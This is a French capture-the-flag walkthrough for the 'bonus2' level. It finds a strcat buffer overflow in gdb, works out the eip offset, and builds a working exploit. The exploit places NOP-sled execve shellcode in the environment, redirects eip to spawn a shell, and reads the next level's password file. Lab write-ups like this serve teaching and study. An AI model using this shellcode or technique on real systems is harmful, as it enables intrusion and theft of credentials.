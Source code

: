 ## bonus2
- En examinant le [code source désassemblé](source.c), on repère une faille envisageable au niveau du [`strcat`](https://linux.die.net/man/3/strcat) :
    - > The strcat() function appends the src string to the dest string, overwriting the terminating null byte ('\0') at the end of dest, and then adds a terminating null byte. The strings may not overlap, and the dest string must have enough space for the result. *If dest is not large enough, program behavior is unpredictable; buffer overruns are a favorite avenue for attacking secure programs.*
    - On arrive effectivement à réécrire l'`eip` (testé avec `LANG=nl`) :
    ```
    (gdb) r $(python -c "print 'A'*40") BBBCCCDDDEEEFFFGGGHHHIIIJJJKKKLLL
    Starting program: /home/user/bonus2/bonus2 $(python -c "print 'A'*40") BBBCCCDDDEEEFFFGGGHHHIIIJJJKKKLLL
    Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBCCCDDDEEEFFFGGGHHHIIIJJJKKKLL

    Program received signal SIGSEGV, Segmentation fault.
    0x4a4a4a49 in ?? ()
    (gdb) i r
    eax            0x56	86
    ecx            0xffffffff	-1
    edx            0xb7fd28b8	-1208145736
    ebx            0xbffff260	-1073745312
    esp            0xbffff210	0xbffff210
    ebp            0x49494848	0x49494848
    esi            0xbffff2ac	-1073745236
    edi            0xbffff25c	-1073745316
    eip            0x4a4a4a49	0x4a4a4a49
    eflags         0x210286	[ PF SF IF RF ID ]
    cs             0x73	115
    ss             0x7b	123
    ds             0x7b	123
    es             0x7b	123
    fs             0x0	0
    gs             0x33	51
    ```
    L'`eip` a pour valeur `IJJJ` => il démarre au 24e caractère de `argv[2]` (et il faudra donc 23 caractères de *padding* dans le `argv[2]` de notre exploit).
- Tout comme dans le [level bonus0](/bonus0/walkthrough.md), on va écraser l'`eip` et le faire pointer vers un *shellcode* exporté préalablement dans l'environnement.
    - `export EXPLOIT=$(python -c 'print "\x90" * 1024 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')`
    - Depuis `gdb`, mettre un *breakpoint* sur `main` puis lancer l'exécution. Utiliser `x/10s *((char **)environ)` pour retrouver l'adresse de notre exploit dans l'environnement => `0xbffff4f0`. Toutefois, cette adresse peut changer selon les arguments, on va donc ajouter 256 octets de décalage => `0xbffff5f0` (ce décalage n'impacte en rien le fonctionnement de notre exploit, puisque ce dernier commence par 1024 octets de [`NOP`](https://en.wikipedia.org/wiki/NOP_(code))).
    - ``./bonus2 `python -c 'print "A"*40'` `python -c 'print "\x90"*23 + "\xf0\xf5\xff\xbf"'` ``nous permet bien de lancer un *shell*. `cat /home/user/bonus3/.pass` pour récupérer le *flag*.